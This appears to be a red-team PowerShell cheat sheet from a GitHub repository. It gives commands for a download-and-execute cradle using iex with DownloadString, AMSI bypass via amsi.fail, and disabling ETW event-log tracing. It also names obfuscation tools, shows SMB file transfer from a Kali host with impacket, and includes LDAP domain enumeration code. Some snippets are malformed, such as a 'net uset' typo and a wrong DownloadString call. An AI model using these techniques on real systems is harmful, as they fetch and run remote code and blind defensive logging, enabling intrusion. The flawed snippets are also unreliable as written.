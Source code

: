 Especify user-agent: permite camuflar requisições
```powershell
$variable.Headers.Add("user-agent","redteam")
iex $variable.DownloadString($address,$path)
```


### AMSI

amsi.fail

Event Tracking for Windows (ETW)
```powershell
C:\Remove-EtwTraceProvider -AutologgerName EventLog-Application -Guid '{A0C1853B-5C40-4B15-8766-3CF1C58F985A}'

# this command will delete the register key, in other word it disables the ETW
```

Remove the provider ETW in a session:
```powershell
C:\logman update trace EventLog-Application --p Microsoft-Windows-PowerShell -ets
```

### Obfuscation

Invoke-CradleCrafter:

- Generate payload for remote downloads and obfucated scripts

Invoke-Obfuscation:
```powershell
- it does various types of obfuscation and encoding 

first import the module
> Import-Module Invoke-Obfuscation.psd1
```


Impacket has a module that opens a share in  a smb server for file transfer:
```powershell
on Kali   > impacket-smbserver -smb2support <share name> <directory>
on Target > net uset z: \\<kali ip>\<share name>
then just cd to z:
```

```powershell
git reset --hard # update the repository
```

```powershell
pwsh # to open powershel on Linux
```


### Domain Enumeration

show domain info:
```powershell
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.',',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot=$objDomain
$Searcher.filter="samAccountType=805306369"
$Searcher.FindAll()
```